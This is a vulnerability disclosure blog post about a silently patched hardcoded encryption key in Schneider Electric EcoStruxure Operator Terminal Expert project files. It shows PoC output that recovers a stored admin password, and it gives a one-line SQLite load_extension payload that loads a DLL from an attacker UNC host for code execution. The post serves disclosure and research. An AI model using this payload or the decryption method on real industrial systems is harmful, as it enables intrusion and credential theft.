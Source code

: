 ```yaml
---
layout: post
title: "Silent Schneider :: Revealing a Hidden Patch in EcoStruxure Operator Terminal Expert"
date: 2020-02-18 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">Last month, [Chris](https://twitter.com/mufinnnnnnn) and I competed at [Pwn2Own Miami 2020](https://www.thezdi.com/blog/2020/1/21/pwn2own-miami-2020-schedule-and-live-results) targeting several ICS applications. One of the applications that we targeted was the Schneider Electric EcoStruxure Operator Terminal Expert. This blog post talks about a silent patch that was introduced before the competition that subsequently killed several bugs in our exploit chain.</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, one of the bugs that was in our chain will be revealed coupled with an exploit that can help network penetration testers and red teams to pivot through a compromised network.*</p>

## Overview

<p class="cn" markdown="1">As [Cim](https://twitter.com/Cim_Stordal) hints out in his [blog post](https://medium.com/cognite/pwn2own-or-not2pwn-part-1-3f152c44563e), he could pack and unpack project files even though encryption was in play. This is because one of the bugs that was silently patched was a hardcoded cryptographic key that was being used to encrypt and decrypt the project file.</p>

## Vulnerable Versions

<p class="cn" markdown="1">Since this was a silent patch, let's be clear about what was vulnerable and what was not:</p> 
<div markdown="1" class="cn">
- `EcoStruxure Operator Terminal Expert V3.1.iso` - SHA1: `386312d68ba5e6a98df24258f2fbcfb2d8c8521b`:

   This version is vulnerable and released 20/9/2019.

- `Installation_File_v3.1_SP1.zip` - SHA1: `229c8a5f9cdb1d63c2f9998d561a50a30e829d7a`:

   This version is *not* vulnerable and released 20/12/2019.
</div>

## Impact

<p class="cn" markdown="1">The project file (.vxdz) was a simple zip compressed file that could be extracted.</p>

```
saturn:~ mr_me$ unzip -d sample sample.vxdz 
Archive:  sample.vxdz
 extracting: sample/Alarm.db         
 extracting: sample/AllDataLogging.dat  
 extracting: sample/contents.inf     
 extracting: sample/Converters.dat   
 extracting: sample/hierarchy.inf    
 extracting: sample/Language.db      
 extracting: sample/logging.dat      
 extracting: sample/Project.dat      
 extracting: sample/Recipe.Binding.dat  
 extracting: sample/Recipe.db        
 extracting: sample/RecipeControls.dat  
 extracting: sample/scripts.inf      
 extracting: sample/Security.db      
 extracting: sample/SystemKeypad.inf  
 extracting: sample/Target.Binding.dat  
 extracting: sample/Target.dat       
 extracting: sample/Validations.dat  
 extracting: sample/Variables.db     
 extracting: sample/Screens/panel1.binding.dat  
 extracting: sample/Screens/panel1.dat  
 extracting: sample/Scripts/panel0.binding.dat  
 extracting: sample/Scripts/panel0.dat  
 extracting: sample/[Content_Types].xml  
saturn:~ mr_me$ file sample/Security.db
sample/Security.db: data
saturn:~ mr_me$ strings sample/Security.db 
]3uU
B[]~
J|)o
JdnAq
ER$_0
pPQ$M
```

<p class="cn" markdown="1">When attempting to determine the file types of the .db files and/or inspect their content, we can quickly see that the files are encrypted and compressed using deflate. Normally this wouldn't be an issue, but the Security.db file can contain sensitive information such as usernames and passwords.</p>

```
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <projectfile> [options <pack/unpack>]
(+) eg: ./poc.py sample.vxdz unpack
(+) eg: ./poc.py sample.vxdz pack
saturn:~ mr_me$ ./poc.py sample.vxdz unpack
(+) unpacking to sample
(+) unpacking: sample/Validations.dat
(+) unpacking: sample/Screens/panel1.binding.dat
(+) unpacking: sample/Recipe.Binding.dat
(+) unpacking: sample/RecipeControls.dat
(+) unpacking: sample/hierarchy.inf
(+) unpacking: sample/Alarm.db
(+) unpacking: sample/Recipe.db
(+) unpacking: sample/Project.dat
(+) unpacking: sample/Screens/panel1.dat
(+) unpacking: sample/Language.db
(+) unpacking: sample/scripts.inf
(+) unpacking: sample/Target.Binding.dat
(+) unpacking: sample/Target.dat
(+) unpacking: sample/AllDataLogging.dat
(+) unpacking: sample/logging.dat
(+) unpacking: sample/Scripts/panel0.binding.dat
(+) unpacking: sample/Scripts/panel0.dat
(+) unpacking: sample/Converters.dat
(+) unpacking: sample/Security.db
(+) unpacking: sample/SystemKeypad.inf
(+) unpacking: sample/Variables.db
(+) unpacking: sample/contents.inf
(+) unpacking: sample/[Content_Types].xml
(+) unpacked and decrypted: sample.vxdz
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
saturn:~ mr_me$ strings sample/Security.db | grep admin
admins
admin09cfb7e71f097ebfed99e3ca3ba5d8b9e26162e19d03949566df9a12097d3bb2
adminthe master admin userThisIsASecretPassword!^L4G
saturn:~ mr_me$
```

<p class="cn" markdown="1">Using the PoC we developed, it's possible to expose passwords inside of .vdxz files and in the example above, we can see that the password `ThisIsASecretPassword!` was exposed.</p>

## Remote Code Execution

<p class="cn" markdown="1">Details of SQLite fts3_tokenizer Untrusted Pointer Remote Code Execution Vulnerability ([CVE-2019-8602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8602)) was released in Checkpoint's excellent blog [post](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/).</p>

<p class="cn" markdown="1">Not only was the FTS3 extension enabled in the SQLite binary for EcoStruxure Operator Terminal Expert, but it was also using an outdated version: `3.8.10.2`. The checkpoint blog post had all the ingredients to trigger the bug using query hijacking and craft a working remote code execution exploit using just CVE-2019-8602. However, there was a simpler way.</p>

<p class="cn" markdown="1">As it turned out, the SQLite binary shipped also had the [`sqlite3_load_extension`](https://www.sqlite.org/c3ref/load_extension.html) interface enabled, meaning that it was simple to gain remote code execution using the following payload:</p>

`select load_extension('\\attacker\calc.dll','DllMain');`

## Patch

<p class="cn" markdown="1">The patch that Schneider released in SP1 was essentially to encrypt files using a per project password, instead of using a hardcoded encryption key.</p>

{% include image.html
            img="assets/images/silent-schneider-revealing-a-hidden-patch-in-ecostruxure-operator-terminal-expert/patch.png"
            title="A per project password warning"
            caption="A per project password warning"
            style="width:50%;height:50%" %}

<p class="cn" markdown="1">Additionally the SQLite binary that was shipped in SP1 had the FTS3 extension and `sqlite3_load_extension` interface disabled.</p>

## Conclusion

<p class="cn" markdown="1">Whilst no CVE was issued, having knowledge of the hardcoded key may aid in network pivoting as sensitive information can be revealed if .vdxz files are found within a network.</p>

<p class="cn" markdown="1">An advisory and poc exploit can be found [here](/advisories/src-2020-0010/).</p>
